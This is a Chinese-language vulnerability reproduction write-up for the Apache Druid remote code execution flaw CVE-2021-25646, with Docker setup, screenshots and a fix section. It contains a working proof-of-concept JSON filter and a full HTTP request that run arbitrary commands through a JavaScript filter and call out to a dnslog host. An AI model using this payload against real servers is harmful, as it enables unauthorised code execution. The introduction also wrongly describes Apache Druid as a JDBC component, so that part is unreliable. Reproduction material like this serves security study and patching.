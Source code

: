 

# CVE-2021-25646 - Apache Druid RCE 复现

# [](#apache-druid-rce-%E5%A4%8D%E7%8E%B0)Apache Druid RCE 复现

## [](#1-%E6%BC%8F%E6%B4%9E%E4%BB%8B%E7%BB%8D)1 漏洞介绍

### [](#11-druid)1.1 Druid

Druid 是一个 JDBC 组件，支持所有 JDBC 兼容的数据库，包括 Oracle、MySql、Derby、Postgresql、SQL Server、H2 等。

### [](#12-%E6%BC%8F%E6%B4%9E%E6%8F%8F%E8%BF%B0)1.2 漏洞描述

**编号：CVE-2021-25646**

Apache Druid 包括执行用户提供的 JavaScript 的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在 Druid 0.20.0 及更低版本中，经过身份验证的用户可以构造传入的 json 串来控制一些敏感的参数发送恶意请求，利用 Apache Druid 漏洞可以执行任意代码。

### [](#13-%E5%BD%B1%E5%93%8D%E7%89%88%E6%9C%AC)1.3 影响版本

Apache Druid < 0.20.1

## [](#2-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)2 漏洞复现

### [](#21-%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA)2.1 环境搭建

从 docker 仓库中拉取一个版本为 0.16.0 的镜像：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>docker pull fokkodriesprong/docker-druid<br>docker run --rm -i -p 8888:8888 fokkodriesprong/docker-druid<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202215229.png-water_print](assets/1699411376-784b5fec9c36839f49fe8bbc66292b5e.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202215229.png-water_print")

### [](#22-%E5%A4%8D%E7%8E%B0)2.2 复现

docker 容器启动后，访问 8888端口：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224141.png-water_print](assets/1699411376-8748f4e80dc2ffffcc0ae10db1e1a7c1.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224141.png-water_print")

点击 `Load data -> Local Disk`：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224155.png-water_print](assets/1699411376-0b0af03c603ffce4725b937fe7e1caed.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224155.png-water_print")

填入

**Base directory:** `quickstart/tutorial/`

**File filter:** `wikiticker-2015-09-12-sampled.json.gz`

一直点击 next 到 filter 项

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224208.png-water_print](assets/1699411376-b955bc5ea3b2a2f520a5c2dffb6c6180.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224208.png-water_print")

抓包修改 filter 为：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```json<br>{<br>    "type":"javascript",<br>    "function":"function(value){return java.lang.Runtime.getRuntime().exec('curl dnslog')}",<br>    "dimension":"added",<br>    "":{<br>    "enabled":"true"<br>    }<br>}<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224306.png-water_print](assets/1699411376-ffd5185208e836a708320683437e1a35.jpg "修改前")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224325.png-water_print](assets/1699411376-b91bdfc355cf3633ed7628ad20d6cb71.jpg "修改后")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224502.png-water_print](assets/1699411376-cb72c20855427ba567ca0ce8fe9a4a75.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224502.png-water_print")

也可以直接使用 POC：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```http<br>POST /druid/indexer/v1/sampler HTTP/1.1<br>Host: xxx.xxx.xxx.xxx:8888<br>User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0<br>Accept: application/json, text/plain, */*<br>Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2<br>Content-Type: application/json<br>Content-Length: 995<br>Connection: close<br><br><br>{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('curl xxxxx.dnslog.cn')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}<br>``` |

### [](#23-%E4%BF%AE%E5%A4%8D)2.3 修复

升级 Apache Druid 到最新的版本

对 Apache Druid 进行权限控制，只允许受信任的主机访问集群服务器
